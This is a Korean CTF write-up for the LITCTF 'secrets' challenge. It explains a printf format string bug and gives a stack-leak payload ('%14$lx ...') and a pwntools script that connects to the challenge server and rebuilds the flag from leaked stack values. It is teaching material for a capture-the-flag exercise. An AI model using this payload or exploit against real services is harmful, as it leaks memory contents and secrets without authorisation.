



# secrets

## 문제 설명

> Ever wonder what happens behind the scenes of every C program?
> connect via `nc 136.115.87.65 31779`

- 문제 파일: `main`
- 참고 파일: `exploit.py`
- 문제 링크: `https://lit.lhsmathcs.org/ctf/challenges`
- 파일 형식: `ELF 64-bit LSB executable`, `x86-64`, `dynamically linked`, `not stripped`

## 풀이

### 분석

바이너리를 보면 사용자 입력을 받은 뒤 이를 그대로 `printf()`의 format string 인자로 넘기는 지점이 있다. 즉 `printf("%s", buf)`처럼 고정된 서식 문자열을 쓰는 대신 `printf(buf)` 형태로 호출되어 Format String Bug가 발생한다.



x86-64 System V ABI에서는 함수 인자가 `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9` 순서로 레지스터에 들어가고, 그 이후 인자는 스택에서 참조된다. `printf()`는 format string 안에 지정된 변환 지시자를 기준으로 추가 인자를 읽으므로, 실제로 넘기지 않은 인자도 레지스터와 스택에 남아 있는 값에서 읽어낼 수 있다.

IDA에서 확인하면 `buf`는 `rsp + 0x40` 부근에 위치한다. 따라서 `positional format specifier`를 이용해 스택의 특정 위치를 읽으면, `buf`에 들어 있는 flag 문자열 조각을 8바이트 단위로 누출할 수 있다.



처음에는 `buf`에 있는 문자열을 직접 읽겠다는 생각으로 `%14$s`를 시도했다. 하지만 `%s`는 해당 값을 문자열 자체가 아니라 주소로 해석한 뒤 역참조한다. `buf`에 들어 있는 값은 flag 평문 일부이므로 이를 주소로 해석하면 잘못된 주소를 참조하게 되고 `segmentation fault`가 발생한다.

반대로 `%p`나 `%lx`는 읽은 값을 주소로 역참조하지 않고 정수 형태로 출력한다. 로컬에서는 `flag.txt`에 `Hello, World!`를 넣고 `AAAABBBB %14$p`를 입력해 확인했다.

```text
AAAABBBB 0x57202c6f6c6c6548
```

`0x57202c6f6c6c6548`을 `little endian` 바이트로 해석하면 `Hello, W`가 된다. 즉 `%14$p`, `%15$p`, ... 형태로 이어서 출력하면 `remote` 환경에서도 flag 내용을 순서대로 읽을 수 있다.



`remote`에서는 다음 `payload`로 14번째부터 18번째 위치까지 읽었다.

```text
%14$lx %15$lx %16$lx %17$lx %18$lx
```

앞의 4개 값은 각각 8바이트, 마지막 값은 7바이트의 flag 조각이었다. 따라서 전체 flag 길이는 `8 * 4 + 7 = 39`바이트이고, 각 16진수 값을 정수로 변환한 뒤 `p64()`로 `little endian` 바이트 배열로 바꾸면 flag 평문을 복원할 수 있다. 실제 `remote` 출력값은 flag를 복원할 수 있으므로 제출본에서는 생략한다.

### 취약점

핵심 취약점은 사용자 입력이 `format string`으로 직접 사용되는 점이다.

```c
printf(buf);
```

이 방식에서는 공격자가 `%14$lx` 같은 `specifier`를 입력해 원래 출력 대상이 아니었던 스택 값을 읽을 수 있다. 이 문제에서는 프로그램이 `flag.txt`를 읽어 `buf`에 저장한 뒤 같은 스택 프레임 안에서 취약한 `printf()`를 호출하므로, `stack leak`만으로 flag를 복원할 수 있었다.

분석 과정에서 `%p`, `%lx`, `%s`의 차이가 중요했다.

- `%p`, `%lx`: 읽은 값을 정수/포인터 표현으로 출력한다.
- `%s`: 읽은 값을 주소로 해석하고, 그 주소가 가리키는 문자열을 출력한다.

flag 조각 자체를 주소로 해석하면 유효하지 않은 주소가 되기 쉬우므로, 이 문제에서는 `%s`가 아니라 `%lx`로 값을 읽은 뒤 직접 `little endian` 문자열로 변환해야 한다.

### 익스플로잇

첨부한 `exploit.py`는 `remote`에 `format string payload`를 보내고, 출력된 16진수 문자열을 다시 바이트로 변환한다. 14번째부터 17번째 값까지는 공백으로 구분되는 8바이트 조각이고, 18번째 값은 마지막 조각이므로 개행까지 읽어서 처리했다.

```python
from pwn import *

p = remote("136.115.87.65", 31779)

def func():
	stdout = p.recvuntil(b" ", drop=True)
	value = int(stdout, 16)
	print(p64(value))

p.sendline(b"%14$lx %15$lx %16$lx %17$lx %18$lx")

for _ in range(4):
	func()

stdout = p.recvuntil(b"\n", drop=True)
value = int(stdout, 16)
print(p64(value))
```

처음에는 `%lx`의 출력 결과를 8바이트 데이터로 착각해 바로 변환하려 했다. 실제로는 8바이트 정수가 16진수 문자열 형태로 출력된 것이므로, `int(stdout, 16)`으로 정수로 바꾼 뒤 `p64()`로 `packing`해야 한다.

## 플래그

```
LITCTF{REDACTED}
```

## 배운 점

- Format String Bug에서는 실제로 넘겨지지 않은 인자도 호출 규약과 스택 배치에 따라 읽힐 수 있다.
- `%p`나 `%lx`는 값을 출력하지만, `%s`는 값을 주소로 해석해 역참조한다.
- `little endian`으로 저장된 8바이트 값을 사람이 읽는 문자열로 복원하려면 16진수 문자열을 정수로 변환한 뒤 `p64()` 같은 `packing` 함수를 사용하면 된다.
- `remote` 환경의 `flag.txt`를 직접 볼 수 없을 때는 로컬에 모조 `flag.txt`를 만들고 같은 스택 위치에서 어떤 값이 출력되는지 먼저 검증하면 분석이 빨라진다.

## 참고 자료

- Dreamhack, System Hacking - Linux Advanced: Format String Bug
- 포맷 스트링 버그(Format String Bug) 이해 - 1: `https://blog.naver.com/luexr/223169987715`
- pwntools 정리: `https://velog.io/@marchen/pwntools`
- Python 진법 변환 정리: `https://ihp001.tistory.com/113#google_vignette`
